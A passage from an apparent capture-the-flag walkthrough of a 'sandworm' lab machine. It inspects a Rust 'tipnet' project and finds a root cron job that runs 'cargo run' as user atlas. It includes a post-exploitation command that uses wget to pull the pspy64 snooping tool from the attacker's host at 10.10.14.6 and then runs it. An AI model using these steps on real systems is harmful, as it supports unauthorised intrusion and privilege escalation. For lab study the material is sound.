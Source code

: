 
This is a good sign there’s a cron or other scheduled task running every two
minutes. The `Cargo.toml` file defines the Rust package:

    
    
    [package]
    name = "tipnet"
    version = "0.1.0"
    edition = "2021"
    
    # See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html
    
    [dependencies]
    chrono = "0.4"
    mysql = "23.0.1"
    nix = "0.18.0"
    logger = {path = "../crates/logger"}
    sha2 = "0.9.0"
    hex = "0.4.3"
    

Interestingly, the `logger` library is located in the `crates` directory (as
observed). In the `src` folder is a single file, `main.rs`:

    
    
    silentobserver@sandworm:/opt/tipnet/src$ ls -l
    total 8
    -rwxr-xr-- 1 root atlas 5795 May  4  2023 main.rs
    

#### Processes

There’s nothing too exciting in the process list, but I’ll also run
[pspy](https://github.com/DominicBreuker/pspy) to look for crons (first
uploading it from my host):

    
    
    silentobserver@sandworm:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-11-14 21:34:48--  http://10.10.14.6/pspy64    
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK  
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64                                                              100%[============================================================================>]   2.96M  4.10MB/s    in 0.7s    
    
    2023-11-14 21:34:49 (4.10 MB/s) - ‘pspy64’ saved [3104768/3104768]
    
    silentobserver@sandworm:/dev/shm$ chmod +x ./pspy64
    silentobserver@sandworm:/dev/shm$ ./pspy64
    ...[snip]...
    

Every two minutes, root goes into the `tipnet` directory and runs `cargo run
--offline` as atlas:
